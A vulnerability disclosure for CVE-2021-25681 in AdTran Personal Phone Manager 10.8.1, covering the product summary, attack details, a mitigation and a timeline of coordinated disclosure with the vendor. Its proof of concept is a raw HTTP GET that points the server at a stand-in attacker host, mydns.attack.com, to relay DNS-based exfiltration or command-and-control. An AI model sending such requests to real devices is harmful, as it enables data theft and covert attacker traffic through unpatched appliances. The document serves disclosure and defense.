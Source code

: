 EXP
---

    # Exploit Title: Adtran Personal Phone Manager 10.8.1 - DNS Exfiltration
    # Date: 1/21/2021
    # Exploit Author: 3ndG4me
    # Vendor Homepage: https://adtran.com/web/page/portal/Adtran/wp_home
    # Version: v10.8.1
    # Tested on: NetVanta 7060 and NetVanta 7100
    # CVE : CVE-2021-25681

    # CVE-2021-25681 - AdTran Personal Phone Manager DNS Exfiltration

    --Summary--

    The AdTran Personal Phone Manager software is vulnerable to an issue that allows for exfiltration of data over DNS. This could allow for exposed AdTran Personal Phone Manager web servers to be used as DNS redirectors to tunnel arbitrary data over DNS.

    ADTRAN, Inc
    https://adtran.com

    --Affects--

    - AdTran Personal Phone Manager
    - Verified on v10.8.1
    - **Note**: The affected appliances NetVanta 7060 and NetVanta 7100 are considered End of Life and as such this issue will not be patched. It is recommended impacted users update to an actively supported appliance.

    --Details--

    The AdTran Personal Phone Manager software is vulnerable to an issue that allows for exfiltration of data over DNS. This could allow for exposed AdTran Personal Phone Manager web servers to be used as DNS redirectors to tunnel arbitrary data over DNS. This is achieved by simply making a GET request to the vulnerable server containing a reference to a DNS target that is collecting the tunneled data. This can lead to:

    - Utilizing exposed AdTran Personal Phone Manager Services as a redirector for DNS based Command and Control
    - Utilizing exposed AdTran Personal Phone Manager Services as a redirector for DNS based arbitrary data exfiltration


    -- Proof of Concept --
    To exploit the issue all that is necessary is a simple DNS request:

    GET http://mydns.attack.com/ HTTP/1.1
    Host: SOME ADTRAN HOST HERE
    Pragma: no-cache
    Cache-Control: no-cache, no-transform
    Connection: close

    --Mitigation--
    The server should be reconfigured to not perform arbitrary DNS lookups when the Host/Get requests do not match. Additionally scoping requests to only be allowed in the context of the application is ideal.

    --Timeline--

    - 1/21/2021: DNS Exfiltration vulnerability was discovered and documented. A temporary CVE identifier was requested by MITRE. AdTran was also notified with the full details of each finding via their product security contact at https://adtran.com/web/page/portal/Adtran/wp_product_security. A baseline 90 day disclosure timeline was established in the initial communication.
    - 1/22/2021: Placeholder CVE-2021-25681 was assigned by MITRE.
    - 1/29/2021: A response from AdTran's Product Security Team was received.
    - 2/8/2021: The researcher responded to the email acknowledging receipt. The encrypted email contents appeared to be corrupted so a request was made to resend the data.
    - 2/9/2021: AdTran's Product Security Team replied with a re-encrypted copy of the previous communication made on 1/29/2021. The reasearcher was able to successfully decrypt the contents of this communication. The communication informed the researcher that the disclosed issues targeting NetVanta 7060 and NetVanta 7100 would not be addressed. The justification for this decision is that software support ended in June of 2018, and product EOL occurred in December of 2020. As such AdTran would not be invesitgating the issues leaving the details of the findings as is. The reseacher responded with acknowledgement to the decision and requested support to proceed with full disclosure outside of the previously established 90 day timeline.
    - 2/11/2021: AdTran's product security team responded to the request for full disclosure. They informed the researcher that they would like to discuss the decision internally first. The researcher acknowledged the request and affirmed they would not procceed with disclosure until further notice.
    - 3/1/2021: AdTran's product security team reached out to inform the researcher that they would support the full disclosure of the vulnerability at the researcher's discretion. They provided a few details on model names to include as EOL for the disclosure details.
    - 3/2/2021: The researcher acknowledges the approval and informs the product security team that a link will be provided to any future publications once the vulnerability is publicly disclosed.
    - 3/3/2021: The researcher begins constructing a private repository to prepare the write ups for release.
    - 4/17/2021: The researcher publishes the repository for full disclosure and notifies MITRE to update the CVE entry details.

